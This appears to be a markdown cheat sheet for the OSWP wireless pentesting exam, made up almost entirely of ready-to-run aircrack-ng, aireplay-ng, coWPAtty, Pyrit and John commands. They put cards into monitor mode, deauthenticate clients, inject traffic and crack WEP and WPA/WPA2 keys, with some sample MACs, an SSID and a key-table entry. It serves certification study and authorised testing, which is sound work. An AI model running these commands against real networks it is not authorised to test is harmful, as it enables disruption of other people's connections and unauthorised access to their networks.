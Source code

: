 ```yaml
---
title: Wireless Attacks Cheat Sheet
tags:
  - Offensive Security
  - OSWP
  - Wireless
top: true
abbrlink: oswp-review
date: 2020-06-29 07:42:00
---
```



## Getting Started

### MAC

```bash
root@bt:~# macchanger --show <interface name>
Current MAC: 00:f1:40:93:00:f5 (unknown)

#  Set the MAC XX:XX:XX:XX:XX:XX
macchanger --mac=XX:XX:XX:XX:XX:XX mon0
```

### Open the Monitor Mode

```bash
root@bt:~# airmon-ng check kill && ifconfig wlan1 down && iwconfig wlan1 mode monitor && ifconfig wlan1 up && airmon-ng start wlan1 3
root@bt:~# airmon-ng check kill && ifconfig mon0 down && iwconfig mon0 mode monitor && ifconfig mon0 up

iwconfig <interface name> mode monitor channel <channel number>
```

## Injection Test

#### Basic Injection Test

(Single Card)

```bash
root@bt:~# aireplay-ng -9 <interface name>
root@bt:~# aireplay-ng -9 mon0
```

#### Injection Test for Hidden or Specific SSID

```bash
root@bt:~# aireplay-ng -9 -e <ESSID> -a <AP MAC> <interface name>
root@bt:~# aireplay-ng -9 -e 'STAGE TEST' -a 08:57:00:64:2E:B0 mon0
```

#### Card-to-Cad (Attack) Injection Test

(Two Cards)

```bash
root@bt:~# aireplay-ng -9 -i <input interface> <interface name>
```

# Wired Equivalent Privacy (WEP)

## Open Authentication

### Cracking WEP with Connected Clients

```bash
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
aircrack-ng <capture>
```

### Cracking WEP via a Client

```
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface>
aircrack-ng -z <capture>
```

### Cracking Clientless WEP Networks

```bash
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>

# Run attack 4, the KoreK chopchop attack (or attack 5, the fragmentation attack):
aireplay-ng -4 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -5 -b <AP MAC> -h <Your MAC> <interface> (Need Card Support)

packetforge-ng -0 -a <AP MAC> -h <Your MAC> -l <Source IP> -k <Dest IP> -y
<xor filename> -w <output filename>
# packetforge-ng -0 -a 08:57:00:64:2E:B0 -h 00:f1:40:93:00:f5 -l 192.168.1.113 -k 192.168.1.255 -y replay_dec-0705-020358.xor -w arp-korek

aireplay-ng -2 -r <packet filename> <interface>
aircrack-ng <capture>
```

## Shared Key Authentication

```bash
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

aireplay-ng -1 0 -e <ESSID> -y <keystream file> -a <AP MAC> -h <Your MAC>
<interface>
# aireplay-ng -1 6000 -e 'STAGE TEST' -y wepshared-01-08-57-00-64-2E-B0.xor -a 08:57:00:64:2E:B0 -h 94:0c:6d:7c:ca:73 mon0

aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
aircrack-ng <capture>
```

# WPA/WPA2

## Cracking WPA/WPA2 PSK with Aircrack-ng

```bash
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a<AP MAC> -c <Client MAC> <interface>
# dictionary mode
aircrack-ng -w <wordlist> <capture>

# Airolib-ng database
aircrack-ng -r <db name> <capture>
```

## Cracking WPA with JTR and Aircrack-ng

```bash
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
./john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <ESSID> -w - <capture>
```

## Cracking WPA with coWPAtty

```bash
airmon-ng start <interface> <AP channel>
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

genpmk -f <wordlist> -d <hashes filename> -s <ESSID>
genpmk -f /pentest/passwords/john/password.lst -d wifuhashes -s 'STAGE TEST WPA'

cowpatty -r <capture> -d <hashes filename> -2 -s <ESSID>
```

## Cracking WPA with Pyrit

```bash
airmon-ng start <interface> <AP channel>
pyrit -r <interface> -o <capture> stripLive
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>

# dictionary mode
pyrit -r <capture> -i <wordlist> -b <AP MAC> attack_passthrough

# database mode
pyrit -i <wordlist> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <capture> -b <AP MAC> attack_db
```

## Airolib-ng

```bash
echo wifu > essid.txt
airolib-ng <db name> --import essid <essid filename>
airolib-ng <db name> --import passwd <wordlist>
airolib-ng <db name> --clean all
airolib-ng <db name> --stats
airolib-ng <db name> --batch
airolib-ng <db name> --verify all
aircrack-ng -r <db name> <capture>
```

# General Approach to Cracking WEP Keys

-   Typically, you need 250000 or more unique IVs for 64-bit keys and 1.5 million or more for 128-bit keys.

-   Generally speaking, don’t try to crack the WEP key until you have at least 100000 IVs.

-   Start by trying 64-bit keys with 'aircrack-ng -n 64 <capture filename>'. If 64-bit WEP is used, it can usually be cracked in less than 5 minutes and usually less than 60 seconds with relatively few IVs. If the 64-bit key is not found in 5 minutes, restart Aircrack in generic mode with 'aircrack-ng <capture filename>' and then, at each 100000 IVs mark, retry 'aircrack-ng -n 64 <capture filename>' for 5 minutes.

-   Once you hit 600000 IVs, switch to testing 128-bit keys.

-   Once you hit 2 million IVs, try changing the fudge factor to ‘-f 4’ and run it for at least 30 minutes and up to one hour. Retry, increasing the fudge factor by adding 4 to it each time. You should also try increasing the fudge factor whenever Aircrack-ng stops after having tried all possible keys.

-   All the while, keep collecting data. Remember the golden rule: “the more IVs, the better”. Also, check the next section on how to determine which options to use as these can significantly speed up cracking the WEP key. For example, if the key is entirely numeric, then it can take as few as 50000 IVs to crack a 64-bit key with the ‘-t’ parameter versus 200000 IVs without it. So if you have a hunch about the WEP key, it is worth trying a few variations.

-   The number of unique IVs that you need varies drastically depending on a number of factors. You can consider the following as a rough guideline:
    	○ FMS/KoreK 64-bit—250,000 Unique IVs
    	○ FMS/KoreK 128-bit—1,500,000 Unique IVs
    	○ PTW 64-bit—20,000 packets
    	○ PTW 128-bit—40,000-85,000 packets

    

|        Encryption         |    Password    |  Ivs  |
| :-----------------------: | :------------: | :---: |
| WEP - Open Authentication | AA:BB:CC:DD:EE | 16875 |
|                           |                |       |
|                           |                |       |

